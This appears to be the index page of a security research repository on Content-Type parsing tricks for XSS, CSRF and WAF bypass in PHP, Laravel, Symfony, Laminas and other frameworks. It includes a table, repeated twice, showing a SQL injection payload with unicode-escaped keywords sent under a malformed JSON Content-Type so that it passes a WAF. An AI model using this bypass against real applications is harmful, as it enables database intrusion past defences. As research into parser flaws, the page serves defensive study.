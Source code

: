 # Content-Type Research

## XSS

[Content-Type that can be used for XSS and some related tricks](XSS.md)

## CSRF

> **All frameworks were analyzed with disabled default token-based CSRF protection**

Examples of incorrect Content-Type parsing that can be used for CSRF.  
For example, the ability to send an HTTP request that will be interpreted as JSON without a CORS preflight request.  
Can be used in combination with attacks requiring boolean or array in HTTP request (PHP Type Juggling, NoSQL Injection, Prototype Pollution, ...)

**Interesting results**
 * [Difference of Content-Type processing in browsers](Browsers.md)
 * [Laravel JSON Content-Type parsing](ct-tricks/Laravel.md)
 * [Laminas, Mezzio, Zend Framework JSON Content-Type parsing](ct-tricks/Mezzio.md)
 * [Wordpress JSON Content-Type parsing](ct-tricks/Wordpress.md)

## WAF Bypass

### Basic Idea

| HTTP Request                                                                                      | Application                        | WAF                                                | Result                     |
|---------------------------------------------------------------------------------------------------|------------------------------------|----------------------------------------------------|----------------------------|
| Content-Type: application/x-www-form-urlencoded<br><br>q=' union select '1                        | ' union select 1'                  | ' union select 1'                                  | :heavy_minus_sign: Blocked |
| Content-Type: application/json<br><br>{"q":"' \u0075nion \u0073elect '1"}                         | ' union select 1'                  | ' union select 1'                                  | :heavy_minus_sign: Blocked |
| Content-Type: application/x-www-form-urlencoded;/json<br><br>{"q":"' \u0075nion \u0073elect '1"}  | ' union select 1'                  | {"q":"' \u0075nion \u0073elect '1"}                | :heavy_check_mark: Bypass  |

| HTTP Request                                                                                      | Application                        | WAF                                                | Result                     |
|---------------------------------------------------------------------------------------------------|------------------------------------|----------------------------------------------------|----------------------------|
| Content-Type: application/x-www-form-urlencoded<br><br>q=' union select '1                        | ' union select 1'                  | ' union select 1'                                  | :heavy_minus_sign: Blocked |
| Content-Type: application/json<br><br>{"q":"' \u0075nion \u0073elect '1"}                         | ' union select 1'                  | ' union select 1'                                  | :heavy_minus_sign: Blocked |
| Content-Type: application/x-www-form-urlencoded;/json<br><br>{"q":"' \u0075nion \u0073elect '1"}  | ' union select 1'                  | {"q":"' \u0075nion \u0073elect '1"}                | :heavy_check_mark: Bypass  |

**Interesting results**
 * [PHP multipart boundary parsing](ct-tricks/PHP.md)
 * [Laravel JSON parsing](ct-tricks/Laravel.md)
 * [Symfony JSON/XML parsing](ct-tricks/Symfony.md)
 * [Laminas, Mezzio, Zend Framework JSON parsing](ct-tricks/Mezzio.md)

## Programming languages / Frameworks

| Name | CSRF friendly | WAF Bypass friendly |
|------|---------------|---------------------|
| [PHP](ct-tricks/PHP.md)                       |                    | :heavy_check_mark: |
| [Laravel](ct-tricks/Laravel.md)               | :heavy_check_mark: | :heavy_check_mark: |
| [Symfony](ct-tricks/Symfony.md)               |                    | :heavy_check_mark: |
| [Laminas, Mezzio, Zend](ct-tricks/Mezzio.md)  | :heavy_check_mark: | :heavy_check_mark: |
| [Yii](ct-tricks/Yii.md)                       | :question:         |                    |
| [Wordpress](ct-tricks/Wordpress.md)           | :question:         |                    |

